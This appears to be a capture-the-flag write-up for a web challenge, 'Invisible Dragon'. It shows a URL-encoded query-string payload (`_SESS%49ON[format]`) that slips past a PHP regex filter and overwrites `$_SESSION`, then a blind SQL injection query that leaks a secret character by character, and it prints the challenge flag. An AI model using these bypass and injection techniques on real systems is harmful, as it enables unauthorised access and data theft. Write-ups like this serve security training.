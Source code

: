 # Webhacking Invisible Dragon Solution

Here we can bypass this:
```php
if (preg_match('/session/isUD', $_SERVER['QUERY_STRING'])) {
    exit('not allowed');
}
```

by inject our payload: `_SESS%49ON[format]` *I => %49*
Then, it will override:
```php
parse_str($_SERVER['QUERY_STRING'], $arr);
foreach ($arr as $key => $value) {
    $$key = $value;
}
```
And by this way, we can inject our own: `_SESSION[format]`.

Next, we will build our payload for Blind SQLi:
`select * from prob_invisible_dragon where convert(secret,char(1))='F'`
Where each time we find the character, and by this way leak the flag.

![FLAG image](./images/invisible_dragon.png)
So, let's write our script: [invisible_dragon.py](./scripts/invisible_dragon.py)


**Flag:** ***`FLAG{recycle_reuse_ecyce}`*** 

